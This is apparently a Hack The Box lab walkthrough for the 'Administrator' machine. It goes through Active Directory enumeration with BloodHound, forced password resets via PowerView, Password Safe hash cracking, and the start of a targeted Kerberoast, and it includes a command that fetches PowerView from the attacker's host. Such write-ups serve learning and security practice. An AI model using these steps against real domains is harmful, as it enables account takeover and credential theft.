### Overview



At machine's deploying HTB gives us credentials:

```shell
Olivia:ichliebedich
```

### Port Scanning

 The Nmap scan was initiated to enumerate open ports, services, and potential vulnerabilities on the target system, `administrator.htb` (10.10.11.42).

```shell

# Nmap 7.94SVN scan initiated Sat Nov 16 08:09:44 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o scan 10.10.11.42
Nmap scan report for administrator.htb (10.10.11.42)
Host is up (0.045s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-16 20:10:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-16T20:10:57
|_  start_date: N/A
|_clock-skew: 7h00m45s

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   43.65 ms 10.10.14.1
2   43.87 ms administrator.htb (10.10.11.42)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### Initial Access

Try to login into the machine   using olivia credentials and evil-winrm:



Navigate to **C:\Users** and list users:

```powershell
*Evil-WinRM* PS C:\Users> dir
Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/22/2024  11:46 AM                Administrator
d-----        10/30/2024   2:25 PM                emily
d-----        11/16/2024  12:20 PM                michael
d-----        11/16/2024  12:19 PM                olivia
d-r---         10/4/2024  10:08 AM                Public
```

We can see here all system's users listed. Let's use BloodHound to scan the entire AD environment generating some **.json** files. 

```shell
┌──(kali㉿kali)-[~/HTB/Administrator]
└─$ bloodhound-python -c All -u olivia -p 'ichliebedich' -d administrator.htb -ns 10.10.11.42
```

These JSON files contain structured data that represent various aspects of the AD environment, including relationships between users, groups, computers, and permissions.



### BloodHound

Start neo4j and BloodHound Tool and import the downloaded .json files:

```shell
neo4j start
-----------
bloodhound
```

Login to neo4j DB with your credentials:



Then upload all **.json** files generated by BloodHound to visualize the data:



I used this blog post : [BloodHound Active Directory](https://blog.netwrix.com/2022/12/09/bloodhound-active-directory/) to learn how to use BloodHound for privilege escalation and permissions abuse:



After importing the json files i followed the below steps:

1. **Searching for OLIVIA@ADMINISTRATOR**: This indicates that you are looking for a user account named "Olivia" in the "Administrator" domain. The format "OLIVIA@ADMINISTRATOR" suggests that Olivia is part of a domain called "ADMINISTRATOR."
    
2. **Going under OUTBOUND OBJECT CONTROL**: This refers to a specific section within BloodHound that shows the permissions a user has to control other objects (like users, groups, or computers) in Active Directory. "Outbound" typically means the permissions that the user can exert over other objects.
    
3. **Running the query Transitive Object Control**: This means you are executing a query that retrieves all permissions Olivia has on other objects, including those granted through group memberships (transitive permissions).
    
4. **We can see all Olivia's permissions**: This implies that after running the query, you can view all the permissions that Olivia has across the Active Directory environment.



Running this query we can see that Olivia has **Generic ALL* permissions on MICHEAL



And **MICHEAL** has **ForceChangePassword** on **BENJAMIN**



### Lateral Movement
We have to gain access to **MICHAEL@HTB** for first abusing permissions. For this task i served of The tips provided by BloodHound:



Login into Olivia using **evil-winrm** and follow the steps below:

```powershell
# Step 1: Create a secure string for Olivia's password
$SecPassword = ConvertTo-SecureString 'ichliebedich' -AsPlainText -Force

# Step 2: Create the PSCredential object for Olivia
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\Olivia', $SecPassword)

# Step 3: Create a secure string for the new password you want to set for micheal
$UserPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force

# Step 4: Set micheal's password using Olivia's credentials
Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword -Credential $Cred

```



***WARNING:***  to use Set-DomainUserPassword you need to clone **PowerView.ps1** from your attacker machine:

```shell
*Evil-WinRM* PS C:\Users\olivia\Documents> Invoke-WebRequest -Uri http://10.10.14.218:8888/PowerView.ps1 -OutFile "PowerView.ps1"
*Evil-WinRM* PS C:\Users\olivia\Documents> Import-Module .\PowerView.ps1
```

If the command succeded try to login with new michael's credentials in smb:


### Lateral Movement 2
Now we can login into **Michael** trough evil-winrm and the password we've setted:



As previous, follow the steps indicated in BloodHound about the privileges Micheal have on Benjamin:



So replicate the commands below on michael's shell trough evil-winrm:

```powershell
#Command1
$SecPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force
#Command2
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\michael', $SecPassword)
#Command3
$UserPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force
#Command4
Set-DomainUserPassword -Identity administrator\benjamin -AccountPassword $UserPassword -Credential $Cred
```



With this credentials i tried to login into FTP:



Download this file which is **psafe3** format, use **pswafe2john** to convert into a crackable hash:



The output of john for the provided hash is: **tekieromucho**, so open the databse file with PasswordSafe:



Use this password to logiin into **emily** trough evil-winrm:

```shell
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```



```shell
userflag:66e0e43e********
```

### Privilege escalation
Go back in BloodHound and analyze Emily's permissions in the AD environment:



Emily can perform permission abuse on **Ethan** user, trough the process described by BloodHound:

### Targeted Kerberoast Attack Steps

1. **Authenticate to the Domain Controller:**
   - If not running as `EMILY@ADMINISTRATOR.HTB`, create a PSCredential object:
     ```powershell
     $SecPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\emily', $SecPassword)
     ```

2. **Set the Service Principal Name (SPN):**
   - Use `Set-DomainObject` to set the SPN:
     ```powershell
     Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
     ```

3. **Retrieve the SPN Ticket:**
   - Use `Get-DomainSPNTicket` to get the ticket:
     ```powershell
     Get-DomainSPNTicket -Credential $Cred harmj0y | fl
     ```

4. **Crack the Hash:**
   - The recovered hash can be cracked offline using your preferred tool.

